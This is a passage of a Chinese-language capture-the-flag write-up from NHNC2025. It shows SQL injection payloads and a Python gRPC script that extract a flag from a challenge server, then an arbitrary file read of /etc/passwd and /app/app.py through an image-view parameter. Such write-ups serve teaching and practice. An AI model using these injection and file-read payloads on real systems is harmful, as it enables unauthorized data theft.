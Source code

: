 取得題目中的 `user_pb2` 跟 `user_pb2_grpc`

```bash
python -m grpc_tools.protoc -I. --python_out=. --grpc_python_out=. user.proto
```

接下來開始 sql injection 環節

先用 `' UNION SELECT name FROM sqlite_master WHERE type='table' --` 作為 payload 確定有一個 users table

然後 `' UNION SELECT key FROM users --` 得到 `Server response: secret_flag`

最後 payload 是 `' UNION SELECT value FROM users WHERE key='secret_flag' --`

```python
import grpc
import user_pb2
import user_pb2_grpc

def run():
    channel = grpc.insecure_channel('chal.78727867.xyz:14514')
    stub = user_pb2_grpc.UserServiceStub(channel)
    username_payload = "' UNION SELECT value FROM users WHERE key='secret_flag' --"

    print(f"嘗試查詢 username: {username_payload}")
    response = stub.GetUser(user_pb2.UserRequest(username=username_payload))
    print(f"Server response: {response.data}")

if __name__ == '__main__':
    run()
```

![Pasted%20image%2020250706141134.png](/assets/NHNC2025/Pasted%20image%2020250706141134.png)

![Pasted%20image%2020250706140640.png](/assets/NHNC2025/Pasted%20image%2020250706140640.png)

```txt
NHNC{lETs_cOoK_THe_GoOSE_:speaking_head::speaking_head::speaking_head:}
```

### dkri3c1_love_cat

![Pasted%20image%2020250705084840.png](/assets/NHNC2025/Pasted%20image%2020250705084840.png)

按照提示`/view?img=cat.png`應該是 path travel

試了`/view?img=../../../etc/passwd`會顯示 file not found

![Pasted%20image%2020250705085013.png](/assets/NHNC2025/Pasted%20image%2020250705085013.png)

但是輸入`/view?img=/etc/passwd`會下載到/etc/passwd 的檔案

通靈到題目說的`app.py`放在 /app 底下，`/app/app.py`

![Pasted%20image%2020250705085546.png](/assets/NHNC2025/Pasted%20image%2020250705085546.png)

找到`flag.txt`

